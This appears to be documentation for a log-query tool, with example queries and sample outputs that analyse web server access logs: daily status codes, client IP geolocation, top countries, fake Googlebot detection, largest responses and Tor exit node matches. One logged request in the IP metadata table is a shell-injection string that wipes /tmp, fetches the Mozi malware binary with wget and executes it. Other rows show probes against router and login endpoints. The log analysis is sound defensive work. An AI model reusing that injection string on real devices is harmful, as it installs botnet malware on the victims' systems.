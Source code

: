 # query_hits_by_status_range.sx
```jsx
@[./view/view_default.sx]
| select(
  day:timestamp[1 day],
  total:count(*),
  status_200:count(response=200),
  status_1xx:count(response between 100 and 199),
  status_2xx:count(response between 200 and 299),
  status_3xx:count(response between 300 and 399),
  status_4xx:count(response between 400 and 499),
  status_5xx:count(response between 500 and 599)
)
| group(day)
| select(*, fail_4xx_ratio:ROUND(10000.0*status_4xx/total)/100.0)
```

| day                             | total | status_200 | status_1xx | status_2xx | status_3xx | status_4xx | status_5xx | fail_4xx_ratio |
|---------------------------------|------:|-----------:|-----------:|-----------:|-----------:|-----------:|-----------:|---------------:|
| `2020‑06‑01 00:00:00.000 +0300` |    70 |         44 |          0 |         44 |          0 |         26 |          0 |          37.14 |
| `2020‑06‑02 00:00:00.000 +0300` |   148 |         99 |          0 |         99 |          0 |         49 |          0 |          33.11 |
| `2020‑06‑03 00:00:00.000 +0300` |   114 |         88 |          0 |         88 |          0 |         26 |          0 |          22.81 |
| `2020‑06‑04 00:00:00.000 +0300` |  1091 |         80 |          0 |         80 |          0 |       1010 |          1 |          92.58 |
| `2020‑06‑05 00:00:00.000 +0300` |  1098 |        101 |          0 |        101 |          0 |        996 |          1 |          90.71 |
| `2020‑06‑06 00:00:00.000 +0300` |   132 |         63 |          0 |         63 |          0 |         69 |          0 |          52.27 |
| `2020‑06‑07 00:00:00.000 +0300` |   162 |         90 |          0 |         90 |          0 |         72 |          0 |          44.44 |
| `2020‑06‑08 00:00:00.000 +0300` |   160 |         85 |          0 |         85 |          1 |         74 |          0 |          46.25 |
| `2020‑06‑09 00:00:00.000 +0300` |  1079 |         86 |          0 |         86 |          1 |        992 |          0 |          91.94 |
| `2020‑06‑10 00:00:00.000 +0300` |   118 |         90 |          0 |         90 |          0 |         28 |          0 |          23.73 |
| `2020‑06‑11 00:00:00.000 +0300` |   184 |         99 |          0 |         99 |          0 |         85 |          0 |           46.2 |
...

# query_clientip_metainfo.sx
```jsx
@[./view/view_default.sx]
| select(clientIp, cc(clientIp), asname(clientIp), geo(clientIp), *)
```

| clientIp          | cc | asname                          | geo               | host            | ident  | auth   | timestamp                       | verb | uri                                                                                           | httpversion | invalidRequest | response | bytes | referrer                  | agent                                                                                                               | extra  |
|-------------------|----|---------------------------------|-------------------|-----------------|--------|--------|---------------------------------|------|-----------------------------------------------------------------------------------------------|------------:|----------------|---------:|------:|---------------------------|---------------------------------------------------------------------------------------------------------------------|--------|
| `96.126.103.73`   | US | AS63949 Linode, LLC             | 37.5625,‑122.0004 | 96.126.103.73   | *null* | *null* | `2020‑06‑01 06:22:30.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   238 | ‑                         | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.117 Safari/537.36      | *null* |
| `134.119.218.243` | DE | AS29066 Host Europe GmbH        | 51.2993,9.491     | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:01:30.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36       | *null* |
| `162.243.143.216` | US | AS14061 DIGITALOCEAN‑ASN        | 37.7353,‑122.3732 | 162.243.143.216 | *null* | *null* | `2020‑06‑01 07:42:43.000 +0300` | GET  | /manager/text/list                                                                            |         1.1 | *null*         |      404 |   437 | ‑                         | Mozilla/5.0 zgrab/0.x                                                                                               | *null* |
| `134.119.218.243` | DE | AS29066 Host Europe GmbH        | 51.2993,9.491     | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:52:36.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36       | *null* |
| `185.172.111.210` | NL | AS206898 Server Hosting Pty Ltd | 52.3824,4.8995    | 185.172.111.210 | *null* | *null* | `2020‑06‑01 08:05:34.000 +0300` | POST | /GponForm/diag_Form?style/                                                                    |         1.1 | *null*         |      404 |  1989 | ‑                         | curl/7.3.2                                                                                                          | *null* |
| `223.149.176.156` | CN | AS4134 Chinanet                 | 25.2239,112.1703  | 223.149.176.156 | *null* | *null* | `2020‑06‑01 08:10:23.000 +0300` | GET  | /shell?cd+/tmp;rm+‑rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws |         1.1 | *null*         |      404 |   493 | ‑                         | Hello, world                                                                                                        | *null* |
| `167.172.30.56`   | US | AS14061 DIGITALOCEAN‑ASN        | 40.8364,‑74.1403  | 167.172.30.56   | *null* | *null* | `2020‑06‑01 08:29:40.000 +0300` | GET  | /                                                                                             |         1.0 | *null*         |      200 |   257 | ‑                         | Mozilla/5.0 (compatible; NetcraftSurveyAgent/1.0; +info@netcraft.com)                                               | *null* |
| `128.14.134.134`  | CN | AS21859 ZNET                    | 34.7725,113.7266  | 128.14.134.134  | *null* | *null* | `2020‑06‑01 08:52:27.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   238 | ‑                         | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 | *null* |
| `198.20.103.178`  | NL | AS32475 SINGLEHOP‑LLC           | 52.3521,4.9138    | 198.20.103.178  | *null* | *null* | `2020‑06‑01 08:54:13.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |  1489 | ‑                         | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 | *null* |
| `192.99.34.42`    | CA | AS16276 OVH SAS                 | 43.6319,‑79.3716  | 192.99.34.42    | *null* | *null* | `2020‑06‑01 09:01:02.000 +0300` | GET  | /wp‑login.php                                                                                 |         1.1 | *null*         |      400 |     0 | ‑                         | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/46.0.2490.80 Safari/537.36       | *null* |
| `192.99.34.42`    | CA | AS16276 OVH SAS                 | 43.6319,‑79.3716  | 192.99.34.42    | *null* | *null* | `2020‑06‑01 09:01:14.000 +0300` | GET  | /robots.txt                                                                                   |         1.1 | *null*         |      400 |     0 | ‑                         | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/46.0.2490.80 Safari/537.36       | *null* |
...

# query_top_countries.sx
```jsx
@[./view/view_default.sx]
| select(count(*), cc(clientIp))
| group(cc)
| sort(count desc)
```

| count | cc |
|------:|----|
|  4743 | CN |
|  4165 | US |
|  1937 | RU |
|  1837 | TW |
|  1115 | GB |
|  1053 | KR |
|  1028 | DE |
|   481 | NL |
|   423 | RO |
|   210 | PS |
|   198 | CH |
...

# query_find_fake_google_bots.sx
```jsx
@[./view/view_default.sx]
| select(ASN(clientIp), *)
| filter(  agent like '%Googlebot/%'
		or agent like 'AdsBot-Google/%'
		or agent like '%AdsBot-Google-Mobile;%'
		or agent like '%Google-Ads-Overview%'		
		)
| filter_out(asn = 15169)		
| select(asname(clientIp), geo(clientIp), cc(clientIp), agent, *)
```

| asname                      | geo            | cc | agent                                                                    |   asn | clientIp       | host         | ident  | auth   | timestamp                       | verb | uri      | httpversion | invalidRequest | response | bytes | referrer | extra  |
|-----------------------------|----------------|----|--------------------------------------------------------------------------|------:|----------------|--------------|--------|--------|---------------------------------|------|----------|------------:|----------------|---------:|------:|----------|--------|
| AS64425 SKB Enterprise B.V. | 52.3759,4.8975 | NL | Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html) | 64425 | `5.182.210.16` | 5.182.210.16 | *null* | *null* | `2020‑08‑07 15:44:40.000 +0300` | GET  | /api.php |         1.1 | *null*         |      404 |   437 | ‑        | *null* |

# query_top_response_len.sx
```jsx
@[./view/view_default.sx]
| select(timestamp, clientIp, verb, bytes, uri, *)
| sort(bytes desc)
| limit(50)
```

| timestamp                       | clientIp         | verb   |      bytes | uri                    | host           | ident  | auth   | httpversion | invalidRequest | response | referrer | agent                                                                        | extra  |
|---------------------------------|------------------|--------|-----------:|------------------------|----------------|--------|--------|------------:|----------------|---------:|----------|------------------------------------------------------------------------------|--------|
| `2020‑06‑04 23:43:13.000 +0300` | `183.83.145.187` | GET    | 6529322873 | /secret1337/backup.tgz | 183.83.145.187 | *null* | *null* |         1.1 | *null*         |      200 | ‑        | Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0 | *null* |
| `2020‑06‑13 20:36:48.000 +0300` | `172.105.89.161` | GET    |  239233441 | /secret1337/mysql.sql  | 172.105.89.161 | *null* | *null* |         1.1 | *null*         |      200 | ‑        | Mozilla/5.0 zgrab/0.x                                                        | *null* |
| `2020‑06‑25 20:22:14.000 +0300` | `217.18.21.2`    | *null* |       3681 | *null*                 | 217.18.21.2    | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑06‑25 15:59:32.000 +0300` | `90.191.124.115` | *null* |       3665 | *null*                 | 90.191.124.115 | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑08‑09 02:39:27.000 +0300` | `223.205.236.82` | *null* |       3665 | *null*                 | 223.205.236.82 | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑08‑09 02:39:27.000 +0300` | `223.205.236.82` | *null* |       3665 | *null*                 | 223.205.236.82 | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑06‑08 18:29:55.000 +0300` | `18.220.219.44`  | *null* |       3221 | *null*                 | 18.220.219.44  | *null* | *null* |      *null* | <br>           |      400 | ‑        | ‑                                                                            | *null* |
| `2020‑06‑08 18:29:55.000 +0300` | `18.220.219.44`  | *null* |       3218 | *null*                 | 18.220.219.44  | *null* | *null* |      *null* | <br>           |      400 | ‑        | ‑                                                                            | *null* |
| `2020‑06‑08 18:29:55.000 +0300` | `18.220.219.44`  | *null* |       3217 | *null*                 | 18.220.219.44  | *null* | *null* |      *null* | <br>           |      400 | ‑        | ‑                                                                            | *null* |
| `2020‑06‑08 18:29:55.000 +0300` | `18.220.219.44`  | *null* |       3217 | *null*                 | 18.220.219.44  | *null* | *null* |      *null* | <br>           |      400 | ‑        | ‑                                                                            | *null* |
| `2020‑06‑09 14:35:50.000 +0300` | `52.3.226.210`   | *null* |       3215 | *null*                 | 52.3.226.210   | *null* | *null* |      *null* | <br>           |      400 | ‑        | ‑                                                                            | *null* |
...

# join_with_tor_exit_nodes.sx
```jsx
@[./view/view_default.sx]
| leftjoin(@[../tor_exit_nodes/view_cached.sx] ON left.clientIp = right.tor_ip)
| filter(tor_ip is not null)
| select(tor_ip, tor_time, tor_id, *)
```

| tor_ip            | tor_time                        | tor_id                                   | clientIp          | host            | ident  | auth   | timestamp                       | verb | uri                       | httpversion | invalidRequest | response | bytes | referrer | agent                                                                                                              | extra  |
|-------------------|---------------------------------|------------------------------------------|-------------------|-----------------|--------|--------|---------------------------------|------|---------------------------|------------:|----------------|---------:|------:|----------|--------------------------------------------------------------------------------------------------------------------|--------|
| `185.220.102.6`   | `2020‑08‑12 13:23:50.000 +0300` | A2DB293FFC5A76A718863BF1AEDBC8DFB1CB1097 | `185.220.102.6`   | 185.220.102.6   | *null* | *null* | `2020‑06‑09 07:01:29.000 +0300` | POST | /cgi‑bin/mainfunction.cgi |         1.1 | *null*         |      404 |   437 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `185.220.102.6`   | `2020‑08‑12 12:57:46.000 +0300` | A2534EF23390CAE079B1586F0FDF9CE11F556062 | `185.220.102.6`   | 185.220.102.6   | *null* | *null* | `2020‑06‑09 07:01:29.000 +0300` | POST | /cgi‑bin/mainfunction.cgi |         1.1 | *null*         |      404 |   437 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `178.165.72.177`  | `2020‑08‑12 12:51:05.000 +0300` | 3994E734DCD794479D1A60F4ABD3FC91CAA395EE | `178.165.72.177`  | 178.165.72.177  | *null* | *null* | `2020‑06‑16 00:31:12.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |  1813 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36 | *null* |
| `178.165.72.177`  | `2020‑08‑12 12:51:05.000 +0300` | 3994E734DCD794479D1A60F4ABD3FC91CAA395EE | `178.165.72.177`  | 178.165.72.177  | *null* | *null* | `2020‑06‑16 00:31:12.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |   520 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36 | *null* |
| `185.220.101.203` | `2020‑08‑12 13:06:15.000 +0300` | C8F6F6C1834454F1E927A4A05E8E54EB623D4B73 | `185.220.101.203` | 185.220.101.203 | *null* | *null* | `2020‑06‑19 20:26:05.000 +0300` | GET  | /async/                   |         1.1 | *null*         |      404 |   493 | ‑        | Mozilla/5.0 (Windows ME 4.9; rv:31.0) Gecko/20100101 Firefox/31.7                                                  | *null* |
| `23.129.64.217`   | `2020‑08‑12 12:33:20.000 +0300` | D43EF31799FDCE5A235D1E76F4324C00F6804B05 | `23.129.64.217`   | 23.129.64.217   | *null* | *null* | `2020‑06‑27 22:11:47.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |   238 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `150.129.8.12`    | `2020‑08‑12 13:07:46.000 +0300` | 1970C3CE0F945DA0D16DF5191DC8B0483A421A75 | `150.129.8.12`    | 150.129.8.12    | *null* | *null* | `2020‑06‑30 07:21:02.000 +0300` | GET  | /                         |         1.0 | *null*         |      400 |     0 | ‑        | ‑                                                                                                                  | *null* |
| `150.129.8.27`    | `2020‑08‑12 12:35:07.000 +0300` | 5F1381FA3963CAAF712235CA34D6B15FDDF14966 | `150.129.8.27`    | 150.129.8.27    | *null* | *null* | `2020‑07‑01 23:29:12.000 +0300` | GET  | /                         |         1.0 | *null*         |      400 |     0 | ‑        | ‑                                                                                                                  | *null* |
| `145.239.91.37`   | `2020‑08‑12 13:22:12.000 +0300` | 96D4C61DB5B38EC7ABE3DB9BB87A97A8587B8087 | `145.239.91.37`   | 145.239.91.37   | *null* | *null* | `2020‑07‑02 14:14:32.000 +0300` | GET  | /                         |         1.0 | *null*         |      400 |     0 | ‑        | ‑                                                                                                                  | *null* |
| `23.129.64.205`   | `2020‑08‑12 13:23:55.000 +0300` | 6EEF8446BF9D43DA7F7D8505BDFC49BBE64BF822 | `23.129.64.205`   | 23.129.64.205   | *null* | *null* | `2020‑07‑03 07:25:48.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |   238 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `185.130.44.108`  | `2020‑08‑12 13:07:01.000 +0300` | D8A1F5A8EA1AF53E3414B9C48FE6B10C31ACC9B2 | `185.130.44.108`  | 185.130.44.108  | *null* | *null* | `2020‑07‑04 03:44:04.000 +0300` | GET  | /                         |         1.0 | *null*         |      400 |     0 | ‑        | ‑                                                                                                                  | *null* |
...
